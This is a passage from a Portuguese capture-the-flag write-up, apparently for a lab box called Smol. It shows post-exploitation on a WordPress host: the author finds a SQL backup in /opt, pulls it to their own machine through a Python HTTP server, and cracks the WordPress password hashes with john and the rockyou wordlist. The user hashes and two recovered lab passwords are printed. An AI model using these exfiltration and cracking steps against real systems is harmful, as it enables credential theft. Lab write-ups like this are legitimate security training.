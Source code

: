 Tem alguns serviços rodando no localhost nas portas 33060 e 3306. Os dois são mysql. Sendo assim, vou tentar logar no mysql e verificar a senha do admin e demais usuários do wp.
Tentei conectar com o usuário www-data, mas recebi "Acesso negado".

Lembrei da pasta /opt que geralmente contém arquivos interessantes.

```bash
www-data@ip-10-10-151-222:/var/www/wordpress$ ls -la /opt
total 296
drwxr-xr-x  2 root root   4096 Mar 29  2024 .
drwxr-xr-x 18 root root   4096 Oct 18 13:06 ..
-rw-r--r--  1 root root 291970 Mar 29  2024 wp_backup.sql
```

Me parece bom. Vou transferir esse .sql pra minha máquina para verificação offline.

```bash
www-data@ip-10-10-151-222:/opt$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.23.176.32 - - [18/Oct/2025 13:57:56] "GET /wp_backup.sql HTTP/1.1" 200 -

```

Lendo o arquivo .sql, achei o insert na tabela wp_users.

```mysql
INSERT INTO `wp_users` VALUES (1,'admin','$P$Bvi8BHb84pjY/Kw0RWsOXUXsQ1aACL1','admin','admin@smol.thm','http://192.168.204.139','2023-08-16 06:58:30','',0,'admin'),(2,'wpuser','$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.','wp','wp@smol.thm','http://smol.thm','2023-08-16 11:04:07','',0,'wordpress user'),(3,'think','$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/','think','josemlwdf@smol.thm','http://smol.thm','2023-08-16 15:01:02','',0,'Jose Mario Llado Marti'),(4,'gege','$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1','gege','gege@smol.thm','http://smol.thm','2023-08-17 20:18:50','',0,'gege'),(5,'diego','$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1','diego','diego@smol.thm','http://smol.thm','2023-08-17 20:19:15','',0,'diego'),(6,'xavi','$P$BvcalhsCfVILp2SgttADny40mqJZCN/','xavi','xavi@smol.thm','http://smol.thm','2023-08-17 20:20:01','',0,'xavi');
```


Agora, posso usar o john ou o hashcat para tentar quebrar um ou mais hashes dessa tabela.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ john --format=phpass --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sandiegocalifornia (diego)     
hero_gege@hotmail.com (gege)
1g 0:00:10:06 20.68% (ETA: 11:10:13) 0.001647g/s 5236p/s 28352c/s 28352C/s tizzieandfrankie..tiyon nooner
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session aborted
                                                                                                                                                                    
┌──(kali㉿kali)-[~/smol]
└─$ 

```
